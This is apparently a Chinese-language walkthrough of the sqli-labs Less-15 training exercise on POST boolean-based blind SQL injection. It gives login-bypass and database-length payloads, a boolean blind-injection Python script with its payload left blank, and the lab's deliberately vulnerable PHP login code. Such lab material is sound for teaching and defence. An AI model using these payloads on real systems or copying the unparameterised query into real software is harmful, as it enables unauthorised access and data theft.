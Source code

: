# Less-15 **POST Blind- Boolian Based- String**
TAG： POST型注入、布尔型盲注、字符型注入
## 漏洞利用  
在本less中，万能密码仍然存在  
payload:```1' or 1=1#```
![less15_1](images\less15_1.png)  
经过多次测试，本less并不会显示报错信息，考虑进行布尔型盲注  
测试数据库名长度的payload:
```1' or length(database())=8#```
此恶意语句将在数据库名长度为8时返回一个为真的布尔结果，使页面返回登陆成功信息，借此可以进行数据库名长度的判断  
手工盲注将耗费大量的时间，通常都通过编写python脚本来满足这一需求  

```
import requests
flag = ''
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):
       payload = ""
       res = requests.get(url=payload)
       if 'flag.jpg' in res.text:
           low = mid+1
       else:
           high = mid
       mid = (low+high)//2
   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
   print(flag)
```

## 源码分析  
### less15源码： 
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
	<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
	<title>Less-15- Blind- Boolian Based- String</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:20px;color:#FFF; font-size:24px; text-align:center"> Welcome&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br></div>

<div  align="center" style="margin:40px 0px 0px 520px;border:20px; background-color:#0CF; text-align:center; width:400px; height:150px;">

<div style="padding-top:10px; font-size:15px;">
 

<!--Form to post the data for sql injections Error based SQL Injection-->
<form action="" name="form1" method="post">
	<div style="margin-top:15px; height:30px;">Username : &nbsp;&nbsp;&nbsp;
	    <input type="text"  name="uname" value=""/>
	</div>  
	<div> Password  : &nbsp;&nbsp;&nbsp;
		<input type="text" name="passwd" value=""/>
	</div></br>
	<div style=" margin-top:9px;margin-left:90px;">
		<input type="submit" name="submit" value="Submit" />
	</div>
</form>

</div></div>

<div style=" margin-top:10px;color:#FFF; font-size:23px; text-align:center">
<font size="6" color="#FFFF00">

<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);

// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))
{
	$uname=$_POST['uname'];
	$passwd=$_POST['passwd'];

	//logging the connection parameters to a file for analysis.
	$fp=fopen('result.txt','a');
	fwrite($fp,'User Name:'.$uname);
	fwrite($fp,'Password:'.$passwd."\n");
	fclose($fp);


	// connectivity 
	@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);

	if($row)
	{
  		//echo '<font color= "#0000ff">';	
  		
  		echo "<br>";
		echo '<font color= "#FFFF00" font size = 4>';
		//echo " You Have successfully logged in\n\n " ;
		echo '<font size="3" color="#0000ff">';	
		echo "<br>";
		//echo 'Your Login name:'. $row['username'];
		echo "<br>";
		//echo 'Your Password:' .$row['password'];
		echo "<br>";
		echo "</font>";
		echo "<br>";
		echo "<br>";
		echo '<img src="../images/flag.jpg"  />';	
		
  		echo "</font>";
  	}
	else  
	{
		echo '<font color= "#0000ff" font size="3">';
		//echo "Try again looser";
		//print_r(mysql_error());
		echo "</br>";
		echo "</br>";
		echo "</br>";
		echo '<img src="../images/slap.jpg"   />';	
		echo "</font>";  
	}
}

?>


</font>
</div>
</body>
</html>
```

### 漏洞点分析：

通过阅读此页面的代码，可以发现less15只会显示登陆操作的成功与否，并不会显示数据库查询的结果信息，也就是没有回显点  
因此要进行布尔型盲注，通过页面的显示判断语句的成功与失败  
此漏洞也是来源于没有对用户的输入进行严格过滤  